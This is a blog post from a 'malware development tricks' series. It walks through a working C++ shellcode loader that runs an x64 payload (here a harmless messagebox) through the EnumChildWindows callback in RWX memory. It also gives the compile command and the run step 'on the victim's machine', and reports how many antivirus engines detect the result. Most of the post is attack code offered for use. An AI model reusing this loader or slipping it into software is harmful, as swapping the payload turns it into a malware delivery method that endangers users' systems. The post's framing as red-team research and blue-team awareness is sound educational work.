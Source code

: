 ```yaml
---
title:  "Malware development tricks. Run shellcode via EnumChildWindows. C++ example."
date:   2022-07-13 09:00:00 +0300
header:
  teaser: "/assets/images/61/2022-07-14_09-52.png"
categories:
  - malware
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/61/2022-07-14_09-52.png){:class="img-responsive"}    

This article is the result of my own research into another interesting trick: run shellcode via enumerates the child windows.    

### EnumChildWindows

Enumerates the child windows of the specified parent window by providing the handle to each child window to a callback function that has been created by the application. `EnumChildWindows` continues until either the final child window has been enumerated or the callback function returns `FALSE`:

```cpp
BOOL EnumChildWindows(
  HWND        hWndParent,
  WNDENUMPROC lpEnumFunc,
  LPARAM      lParam
);
```

### practical example

Let's go to look at a practical example. The trick is pretty simple, similar to [previous](/tutorial/2022/06/27/malware-injection-20.html) trick:    

```cpp
/*
 * hack.cpp - run shellcode via EnumChildWindows. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  return 0;
}
```

First we allocate memory buffer in a current process via `VirtualAlloc`:    

```cpp
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Then "copy" our payload to this memory region:    

```cpp
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
```

And then, as a pointer to the callback function in `EnumChildWindows` we specify this memory region:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

As usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection](/assets/images/61/2022-07-14_09-33.png){:class="img-responsive"}    

and run in our victim's machine:    

```powershell
.\hack.exe
```

![injection](/assets/images/61/2022-07-14_09-35.png){:class="img-responsive"}    

![injection](/assets/images/61/2022-07-14_09-37.png){:class="img-responsive"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

![injection](/assets/images/61/2022-07-14_10-11.png){:class="img-responsive"}    

**So, 20 of 69 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/71c4294f90d6d6c3686601b519c2401a58bb1fb03ab9ca3975eca7231af77853/detection](https://www.virustotal.com/gui/file/71c4294f90d6d6c3686601b519c2401a58bb1fb03ab9ca3975eca7231af77853/detection)    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Now about the most important. This month has been very difficult for my family. At the moment, I decided to release a book on the topic of malware development in sha Allah. The book will be based on my posts from this blog. I ask those who have the opportunity to pay for this book. The entire amount will be directed to the treatment of my 4-month-old daughter named Munira:     

![Munira](/assets/images/61/photo_2022-07-14_14-28-56.jpg){:class="img-responsive"}    

[The book will cost 16 USD](https://paypal.me/cocomelonc/16)    

If you have the opportunity to send funds, I will start a fundraiser.    

[EnumChildWindows](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumchildwindows)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-07-13-malware-injection-21)    
[Donate 16 USD](https://paypal.me/cocomelonc/16)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*

